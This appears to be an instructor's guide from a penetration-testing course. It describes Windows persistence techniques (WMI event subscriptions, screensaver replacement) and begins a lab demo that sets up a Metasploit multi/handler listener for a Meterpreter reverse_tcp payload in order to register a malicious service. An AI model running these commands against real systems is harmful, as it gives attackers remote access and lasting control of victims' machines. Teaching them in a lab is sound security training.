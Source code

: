 - **MITRE technique: [Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/)**
  - This technique leverages Windows Management Instrumentation (WMI), a way of managing Windows machines, to perform an action once a specific event in Windows is triggered. 
  - For example, whenever a logon event is created in Windows (which occurs when a user logs in), use WMI to start a new process (which could be a payload). 

- **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pen tester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

Point out that these are just some examples of persistence techniques in Windows, and this isn't a comprehensive list.

- Inform students that you will now demonstrate the persistence technique of creating a malicious service.
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, you will use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This requires an active shell as SYSTEM on the Windows 10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows 10 machine if you do not have an active session already.

1. Log in to Kali and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
**Note:** If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`

     ![A screenshot depicts the results of these commands.](Images/runmulti.PNG)	